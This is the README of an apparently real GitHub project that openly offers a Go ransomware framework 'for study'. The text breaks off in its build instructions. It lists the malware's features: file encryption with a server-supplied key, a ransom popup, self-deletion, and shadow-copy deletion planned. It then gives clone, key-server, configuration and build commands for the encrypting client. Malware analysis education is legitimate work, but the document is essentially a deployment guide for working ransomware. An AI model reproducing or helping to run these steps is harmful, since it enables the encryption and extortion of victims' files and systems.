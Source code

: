 # Ransomware-For-Study

[简体中文](./README-zh-cn.md)

Project Description:

This is a basic ransomware project framework for educational purposes, designed to:
- Provide insights for cybersecurity professionals combating malware
- Offer beginners in malware analysis a basic ransomware attack workflow

**WARNING:**
> 
    - This project is FOR EDUCATIONAL PURPOSES ONLY
    - STRICTLY PROHIBITED for any illegal use
    - The author bears no responsibility for misuse


---

## Key Features

1. Mutex creation to prevent multiple instances
2. ECC encryption with separate public/private key storage (only public key exposed during encryption)
3. Multi-threaded file encryption
4. Post-encryption notepad popup functionality
5. Self-deletion after encryption

---

**TODO (Pending Features):**

1. Volume shadow copy deletion
2. Desktop wallpaper replacement (resource section attempted but failed)
3. Multiple encryption method implementations
4. Multi-folder polling
5. HTTPS for public key transmission

## Installation

**Important:**
This project only works on Windows OS!

### 1. Download Project
```bash
git clone https://github.com/CuteCuteYu/RansomwareFS
```

### 2. Initialize Project
```bash
cd RansomwareFS
go mod tidy
```

### 3. Start Public Key Server
```bash
go run ./server.go ./handler.go
```

### 4. Configuration

#### 4.1 File Extensions and Encryption Threads
`./client/enc_file/enc_file.go`
```go
const (
	FileExtension = ".exe"
	ThreadNumber  = 10 // Number of threads to use for encryption
)
```

#### 4.2 Server Address for Public Key Retrieval
`./client/get_pub_key/get_pub_key.go`
```go
const (
	ServerAddr = "localhost"
	ServerPort = "8080"
)
```

#### 4.3 Mutex Name Configuration
`./client/mutex/mutex.go`
```go
mutexName := "Global\\mypkg_mutex"
```

### 5. Run or Build Client

#### 5.1 Direct Run
```bash
go run ./cmd/client/main.go
```

#### 5.2 Build Executable
```bash
go build ./cmd/client/main.go
